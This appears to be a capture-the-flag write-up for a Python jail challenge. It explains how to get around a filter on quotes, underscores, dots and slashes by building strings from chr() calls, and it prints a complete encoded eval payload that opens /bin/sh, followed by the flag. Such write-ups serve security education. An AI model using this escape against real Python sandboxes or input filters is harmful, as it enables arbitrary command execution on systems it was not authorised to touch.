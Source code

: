 * **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Miscellaneous

* **Difficulty:** Medium

A classic pyjail challenge with no source code. It filtered out some special characters like `' " _ . /` so we couldn't directly execute any code.

One way to bypass this is to break down the string of code we want to execute into individual characters and concatenate them together using the *+* operator.

We can bypass the `'` and `"` filter simply by using `chr(hex-value-of-the-ascii-character)` to make the character we want.

For this I used `eval("__import__('os').system('/bin/sh')")`. The payload for this is:

```
eval(chr(0x5f)+chr(0x5f)+chr(0x69)+chr(0x6d)+chr(0x70)+chr(0x6f)+chr(0x72)+chr(0x74)+chr(0x5f)+chr(0x5f)+chr(0x28)+chr(0x27)+chr(0x6f)+chr(0x73)+chr(0x27)+chr(0x29)+chr(0x2e)+chr(0x73)+chr(0x79)+chr(0x73)+chr(0x74)+chr(0x65)+chr(0x6d)+chr(0x28)+chr(0x27)+chr(0x2f)+chr(0x62)+chr(0x69)+chr(0x6e)+chr(0x2f)+chr(0x73)+chr(0x68)+chr(0x27)+chr(0x29))
```

Now with all the pieces together, let's send our exploit.

<img src="flag3.png" alt="FLAG" width="1000"/>

Flag is: **HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}**

## The Chasm's Crossing Conundrum
